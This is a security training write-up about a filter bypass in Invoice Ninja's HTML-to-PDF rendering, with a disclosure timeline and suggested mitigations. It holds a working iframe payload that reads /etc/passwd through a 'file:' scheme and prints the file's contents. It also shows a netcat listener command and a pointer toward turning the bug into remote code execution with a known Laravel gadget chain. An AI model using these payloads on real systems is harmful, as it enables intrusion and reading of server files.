




## Introduction

This session was focused on a white-box code review, tooling, and instrumentation.

The picked lab was `Invoice Ninja`, version `5.10.43`. It is a Laravel based software and its vendor page can be found [here](https://invoiceninja.com/). The source code is available on their [Github](https://github.com/invoiceninja/invoiceninja/tree/v5.10.43).

This software/product is introduced as follows:

> A source-available invoice, quote, project and time-tracking app built with Laravel.

In this writeup we'll cover two ways to exploit our newly controlled pdf renderer. First the Server Side Request Forgery aspect, and then the Arbitrary File Read.

> It is left as an exercise for the reader to turn the file read primitive into a more than probable Arbitrary Remote Code Execution through Laravel encryption/decryption, and signed serialize/unserialize behaviors. More on that later in this article, remember to read [Remsio](https://x.com/_remsio_)'s cool work and send him cookies! 🌹

Resources:

- [Article & PDF Slides](https://www.synacktiv.com/sites/default/files/2024-12/deep_dive_in_Laravel_encryption.pdf)
- [Tool Laravel-crypto-killer](https://github.com/synacktiv/Laravel-crypto-killer)

## Vulnerability detail

The lab used during this training is no other than the [official invoiceninja docker images](https://github.com/invoiceninja/dockerfiles). The issue is reachable with an account (any priv level), and is nothing but a badly sanitized HTML injection in the context of a browser-based html invoice being rendered to pdf.

At the time of writing (Jan 2025), the code responsible for the issue is [still present](https://github.com/invoiceninja/invoiceninja/blob/b53818aa16bfbbd7ed87a4ce434cbda7d2189275/app/Utils/Traits/Pdf/PdfMaker.php#L42) in the latest version `v5.11.7`.

```php
<?php

/**
 * Invoice Ninja (https://invoiceninja.com).
 *
 * @link https://github.com/invoiceninja/invoiceninja source repository
 *
 * @copyright Copyright (c) 2024. Invoice Ninja LLC (https://invoiceninja.com)
 *
 * @license https://www.elastic.co/licensing/elastic-license
 */

namespace App\Utils\Traits\Pdf;

use App\Exceptions\InternalPDFFailure;
use Beganovich\Snappdf\Snappdf;

trait PdfMaker
{
    /**
     * Returns a PDF stream.
     *
     * @param  string|null $header Header to be included in PDF
     * @param  string|null $footer Footer to be included in PDF
     * @param  string $html   The HTML object to be converted into PDF
     *
     * @return string        The PDF string
     */
    public function makePdf($header, $footer, $html)
    {
        $pdf = new Snappdf();

        if (config('ninja.snappdf_chromium_arguments')) {
            $pdf->clearChromiumArguments();
            $pdf->addChromiumArguments(config('ninja.snappdf_chromium_arguments'));
        }

        if (config('ninja.snappdf_chromium_path')) {
            $pdf->setChromiumPath(config('ninja.snappdf_chromium_path'));
        }

        $html = str_ireplace(['file:/', 'iframe', '<embed', '&lt;embed', '&lt;object', '<object', '127.0.0.1', 'localhost'], '', $html);

        $generated = $pdf
                        ->setHtml($html)
                        ->generate();

        if ($generated) {
            return $generated;
        }

        throw new InternalPDFFailure('There was an issue generating the PDF locally');
    }
}
```

On an outdated deployment of the [Snappdf](https://github.com/beganovich/snappdf) library used, this issue could lead to a straight-up Remote Code Execution with a browser exploit n-day as the library [disables the sandbox by default](https://github.com/beganovich/snappdf/blob/340e877e63ef98db82766a8d8a853d7759cf79fa/src/Snappdf.php#L42) with `--no-sandbox`.

This bug could therefore be chained with a browser exploit, a SSRF to the internal network including the loopback, or even an arbitrary file read to push the exploit chain further.

As far as we know, there are limitations on a browser based file read. In our specific case, accessing files from the `/proc/` filesystem, or with a `.php` suffix was blocked and we couldn't come up with a bypass before the end of the training. The rendering is done as `www-data`, so usual UNIX user rights apply as well (i.e. can't read `/etc/shadow` or other `root-owned` files).

## Root Cause Analysis

The bug can be reached when a new invoice is created / stylized and opened in the editing mode. Navigating to the text editor and clicking `source code` allows direct editing of the html style/sources.



From there we tried to add simple img payloads and wait for our callback.

```html
nc -lnvp 8000

```



No positive result came back. By reading the code, the reason seemed obvious: Invoice Ninja has security measures which will block our initial attempt and wipe down our payload!

Here is the culprit:

```php
$html = str_ireplace(
    ['file:/', 'iframe', '<embed', '&lt;embed', '&lt;object', '<object', '127.0.0.1', 'localhost'],
    '',
    $html
);
```

By looking into it, we can say that it's time to create slightly different payloads and go around that "security measure". Below is a first IP-based bypass.

```html

```



This simple html injection is nice and already allows XSS. Now with the IP bypass we obtain the SSRF aspect of it, but there might be a simpler and more generic bypass to this filter, right? Riiight?

Also, the SSRF & XSS is subject to the browser CORS securities, which might be annoying... But the html content is hosted on a `file://` and not `https?://` scheme, meaning file access should be granted!

Bypass part, shall we?

The code `str_ireplace(['foo', 'bar'], '', $html);` will replace within the `$html` variable the evil matches once. Once. Once... OnOncece? Once!

Bypass done! 😎

You get it, mutations goes like:

- `<ifraiframeme>` > `<iframe>`
- `filfile:/e:///etc/passwd` > `file:///etc/passwd`
- And so on!

From this point I -brank0- jumped straight to the other part of Invoice Ninja to read internal files!

First, we navigate to `Settings`, then `Invoice design`, then `Custom designs` and click on `Design` (😴). Then we pick `Body` and replace the body html code with our Proof of Concept code (style has been added to force display and readability):

```html
AA<ifriframeame 
style="background: #FFFFFF; position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"
width="1000" height="1000"
src="fifile:/le:///etc/passwd/"/>BB
```



> Tadaaa! 🎉

```html
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
invoiceninja:x:1500:1500::/var/www/app:/bin/sh
```

A true eye candy for every Security Ninja! 🥷

## Mitigations

- Realistic & Useful ones
  - Only allow very strict html tags and attributes
  - Generate the DOM with an ASP aware parser, no string concats
  - Clean-up recursively (but there'll always be bypasses, just less trivial)
  - Rework the whole pdf rendering or style edition.. 😭
  - No `--no-sandbox`.
  - Ideally, generate everything on the frontend (less parsers differentials, front does front stuff)
- Funky & Idealist ones / `./lalu_complain_time.sh`
  - No php.
  - No controlled html at all (client side path traversal, browser abuse, ...)
  - This lib seems shady af omg... Str concat to exec commands, file:// prefix, only few commits...

## Bonus - Unserialize to Shell?

We had some time left, and there were probably sinks that could be abused for php unserialize exploits!

Before looking for a sink, we just ensured that a known or trivial unserialize gadget chain was already present so we don't spend (read "waste") time on this for no reason!

By tweaking the code, we tested many payloads and can affirm that `Laravel/RCE17` from [PHPGGC](https://github.com/ambionics/phpggc) worked right away. So as suggested early in this article, take some time, find an unserialize sink, read the Laravel secret, encrypt the payload, and `SPAWN A SHELL`! 😘

> Feel free to DM me -lalu- if you did so, I'll happily feature your research & writings here! 🍀

## Timeline

- 03/01/2025 - Sending the draft blogpost to `invoice-ninja-security@invoice-ninja.com`
- ??/??/???? - foo

## Credits : Training lvl-30 | 2024 October

Attendees:

- Branko Brkic / [@brank0x42](https://twitter.com/brank0x42)
- Yup, this was a one-man training, less synergy, but more focus!


> Join the next Web Security Trainings at [Offenskill](https://offenskill.com/trainings/)
